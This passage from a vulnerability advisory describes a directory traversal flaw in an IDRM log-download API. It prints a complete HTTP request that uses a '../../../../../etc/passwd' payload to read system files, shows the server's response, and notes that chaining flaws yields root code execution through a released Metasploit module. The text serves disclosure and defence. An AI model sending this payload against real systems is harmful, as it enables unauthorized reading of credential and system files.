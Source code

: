 #### Details:

IDRM exposes an API at */albatross/eurekaservice/fetchLogFiles* that allows an authenticated user to download log files from the system. However, the *logFileNameList* parameter contains a basic directory traversal flaw that allows an attacker to download any file off the system.  
The code path is convoluted, and won't be shown here for brevity, but exploitation (and finding this flaw) is very simple:

```
POST /albatross/eurekaservice/fetchLogFiles HTTP/1.1
Host: 10.0.10.25:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.0.10.25:8443/albatross/home
Content-Type: application/json
CSRF-TOKEN: 93e0dbe1-88e5-450e-ab2c-7c614b709876
Content-Length: 93
Cookie: JSESSIONID=ABFFB7EB959FAC45743AC2889960DFD0
Connection: close

{"instanceId":"local_host","logLevel":"DEBUG","logFileNameList":"../../../../../etc/passwd,"}
```

Response:
```
HTTP/1.1 200 
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Disposition: attachment; filename=ms_logs_admin.zip
Accept-Ranges: bytes
X-Content-Type-Options: nosniff
Content-Type: application/zip
Content-Length: 550
Date: Wed, 17 Oct 2018 11:46:45 GMT
Connection: close

<ZIP file containing /etc/passwd>
```
When combined with #1, this allows an unauthenticted attacker to download any file readable by *"a3user"* off the system.
It should be noted that version 2.0.1 is not vulnerable, but versions higher than 2.0.1 are. Attempting to download an arbitrary file using this method will result in a HTTP 500 error with a *"File security exception"* message.

## Exploitation Summary
By combining vulnerabilities #1, #2 and #3, an unauthenticated user can achieve remote code execution as root. [A Metasploit module implementing this RCE chain was released](https://github.com/rapid7/metasploit-framework/pull/13300) and the asciinema clip below shows it in action:  
[![asciicast](https://asciinema.org/a/328326.svg)](https://asciinema.org/a/328326)
